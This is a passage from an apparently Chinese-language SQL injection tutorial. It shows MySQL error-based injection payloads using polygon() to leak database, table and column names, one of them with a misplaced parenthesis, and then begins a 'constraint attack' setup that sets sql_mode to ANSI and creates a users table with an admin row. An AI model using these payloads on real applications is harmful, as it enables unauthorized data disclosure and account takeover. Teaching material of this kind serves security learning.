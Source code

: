 **Mysql 文档中有一个函数：**

**`Polygon(ls1, ls2, …)`**

**`Polygon`从多个`LineString`或`WKB LineString`参数 构造一个值 。如果任何参数不表示`LinearRing`（也就是说，不是一个封闭和简单的`LineString`），返回值就是 NULL**

**如果传参不是`linestring`的话，就会爆错，而当如果我们传入的是存在的字段的话，就会爆出已知库、表、列**

**`select * from user where id=1 and polygon(1);`**

**`select * from user where id=1 and polygon(()select * from (select user())a)b);`**

**库名**

**上面的方法已经可以爆出库名了，提供另一个方法**

**`select * from user where id =1-a();`**

#### 约束攻击

**首先mysql 5.5 版本以上需要设置数据库为宽松模式，避免出现插入错误error**

**`set @@sql_mode=ANSI;`**

**首先查看原来的`sql_mode`，修改一次`sql_mode`**

```mysql
mysql> select @@sql_mode;
+-------------------------------------------------------------------------------------------------------------------------------------------+
| @@sql_mode                                                                                                                                |
+-------------------------------------------------------------------------------------------------------------------------------------------+
| ONLY_FULL_GROUP_BY,STRICT_TRANS_TABLES,NO_ZERO_IN_DATE,NO_ZERO_DATE,ERROR_FOR_DIVISION_BY_ZERO,NO_AUTO_CREATE_USER,NO_ENGINE_SUBSTITUTION |
+-------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql> set @@sql_mode=ANSI;
Query OK, 0 rows affected, 1 warning (0.00 sec)

mysql> select @@sql_mode;
+--------------------------------------------------------------------------------+
| @@sql_mode                                                                     |
+--------------------------------------------------------------------------------+
| REAL_AS_FLOAT,PIPES_AS_CONCAT,ANSI_QUOTES,IGNORE_SPACE,ONLY_FULL_GROUP_BY,ANSI |
+--------------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

**在宽松模式下创建数据库，并且先插入`admin`的数据**

```mysql
mysql> CREATE TABLE users (
    -> username varchar(25),
    -> password varchar(25)
    -> );
Query OK, 0 rows affected (0.02 sec)

mysql> INSERT INTO users(username,password) VALUES ('admin', 'rand_pass');
Query OK, 1 row affected (0.001 sec)

mysql> select * from users where username='admin';
+----------+-----------+
| username | password  |
+----------+-----------+
| admin    | rand_pass |
```